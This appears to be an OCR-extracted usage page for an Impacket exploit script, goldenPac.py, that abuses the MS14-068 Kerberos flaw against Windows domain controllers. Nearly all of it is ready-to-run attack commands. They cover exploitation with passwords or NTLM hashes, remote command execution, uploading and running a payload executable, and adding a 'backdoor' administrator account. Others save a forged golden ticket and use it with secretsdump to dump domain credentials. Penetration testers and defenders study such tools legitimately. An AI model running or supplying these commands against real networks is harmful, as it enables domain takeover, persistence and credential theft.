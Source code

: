 ```

Authentication:
  -hashes LMHASH:NTHASH NTLM hashes, format is LMHASH:NTHASH
```
## Usage Examples

### Basic MS14-068 Exploitation
```bash
# Basic exploitation with password prompt
python3 goldenPac.py domain.net/normaluser@domain-host

# With explicit password
python3 goldenPac.py domain.net/normaluser:password@domain-host

# Using NTLM hash authentication
python3 goldenPac.py -hashes :ntlmhash domain.net/normaluser@domain-host
```

### Network Configuration Examples
```bash
# Specify domain controller and target IPs explicitly
python3 goldenPac.py -dc-ip 192.168.1.10 -target-ip 192.168.1.20 domain.net/normaluser:password@domain-host

# When domain names don't resolve (add to /etc/hosts or use IPs)
python3 goldenPac.py -dc-ip 10.10.10.5 -target-ip 10.10.10.10 contoso.local/user:pass@dc01.contoso.local
```

### Command Execution Examples
```bash
# Execute specific command
python3 goldenPac.py domain.net/normaluser:password@domain-host whoami

# Upload and execute file
python3 goldenPac.py -c /tmp/payload.exe domain.net/normaluser:password@domain-host arg1 arg2

# Multiple commands
python3 goldenPac.py domain.net/normaluser:password@domain-host "net user backdoor Password123! /add"
```

### Ticket Saving for Later Use
```bash
# Save golden ticket without executing PSExec
python3 goldenPac.py -w /tmp/golden.ccache domain.net/normaluser:password@domain-host None

# Use saved ticket with other Impacket tools
export KRB5CCNAME=/tmp/golden.ccache
python3 secretsdump.py -k -no-pass domain.net/normaluser@dc.domain.net
```
